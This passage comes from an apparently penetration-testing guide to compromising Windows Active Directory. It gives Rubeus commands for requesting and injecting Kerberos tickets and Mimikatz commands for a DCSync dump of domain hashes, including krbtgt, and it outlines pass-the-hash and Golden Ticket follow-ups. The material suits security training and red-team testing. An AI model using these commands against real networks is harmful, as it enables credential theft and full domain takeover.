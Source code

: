 #### 3. **Use Rubeus to Get a TGT or Service Ticket**

Once you have the NTLM hash or plaintext password of a privileged account, you can use **Rubeus** to request a **Kerberos TGT** for that account.

- If you have the **NTLM hash**, use Rubeus to request a TGT:

   ```powershell
   Rubeus.exe asktgt /user:<username> /rc4:<NTLM_hash> /domain:<domain> /dc:<dc_ip> /nowrap
   ```

   If you have the **password**:

   ```powershell
   Rubeus.exe asktgt /user:<username> /password:<password> /domain:<domain> /dc:<dc_ip>
   ```

- Inject the obtained **TGT** or **Kerberos service ticket** into your session:

   ```powershell
   Rubeus.exe ptt /ticket:<base64_ticket>
   ```

   This will allow you to impersonate the domain admin or privileged account to access resources within the domain.

#### 4. **Perform DCSync Attack with Mimikatz**

Once you have the necessary domain admin or privileged account credentials, you can use **Mimikatz** to perform a **DCSync** attack. The DCSync attack uses replication privileges to request password hashes from the Domain Controller.

- Launch **Mimikatz** and perform the DCSync:

   ```powershell
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /domain:<domain> /user:<username>
   ```

   - `user:<username>` can be `krbtgt` if you want to dump the **Kerberos Ticket Granting Ticket (krbtgt)** account hash, which would allow you to forge **Golden Tickets**.
   - This command will dump password hashes, including **NTLM** and **Kerberos** hashes, for the specified user account.

#### 5. **Use Extracted Hashes for Further Attacks**

With the dumped **NTLM** or **Kerberos** hashes, you can:
- Perform a **Pass-the-Hash** attack using the NTLM hash to authenticate as the dumped user to other systems in the network.
- Forge a **Golden Ticket** with Mimikatz using the **krbtgt** hash, allowing you to impersonate any user in the domain and access any resource indefinitely.

### Example Workflow Summary:

1. **SpoolSample** (or similar tool) to trigger authentication from a Domain Controller or high-privileged user.
2. Capture **NTLM** credentials using **Responder** or similar.
3. **Use Rubeus** to request Kerberos tickets with the captured NTLM hash or cracked password.
4. Perform **DCSync** with **Mimikatz** to dump password hashes from the Domain Controller.
